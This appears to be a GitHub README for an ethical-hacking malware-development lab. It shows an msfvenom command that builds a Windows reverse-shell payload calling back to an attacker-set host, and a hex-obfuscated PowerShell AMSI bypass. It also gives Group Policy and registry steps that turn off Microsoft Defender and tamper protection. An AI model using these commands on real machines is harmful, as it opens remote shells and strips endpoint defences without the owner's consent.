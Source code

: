 # Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 or 10 VM
- Parrot 


# Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

# Turn off the defender

## Step 01
`Windows 10` or lower version should be fine after this step, but if you are testing in `Window 11+`, I recommend you to go through step 2 and 3 as well.
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

## Step 02
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`

## Step 03
```powershell
# WIN + R 
regedit
```
Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
### Then setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4


---

# References
- Most of codes are from [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

